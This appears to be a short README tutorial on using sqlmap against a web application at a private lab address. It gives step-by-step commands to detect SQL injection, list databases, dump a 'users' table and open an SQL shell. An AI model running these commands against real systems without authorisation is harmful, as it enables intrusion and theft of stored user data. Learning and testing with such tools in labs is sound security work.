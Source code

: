 # Example of using sqlmap

1. Install Kali Linux.

2. Install Sqlmap.

```
sudo apt update
sudo apt install sqlmap
```

3. Open browser, navigate to target site, press F12 then F5.

4. Fill in some forms.

5. In developer console, go to Network tab, filter only Ajax and Doc requests.

6. Test target URL from command line.

```
curl 'http://172.25.32.1:8080/words?search=ab'
```

7. Run Sqlmap against target.

```
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' --level=3
```

8. After successful found of vulnerable parameter, list databases, tables and dump content.

```
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' --dbs --current-user --current-db
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' -D example --tables
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' -D example -T users --dump
sqlmap -u 'http://172.25.32.1:8080/words?search=ab' --sql-shell
```

9. It is possible to use POST requests too. But it will polute the database and will be much slower.
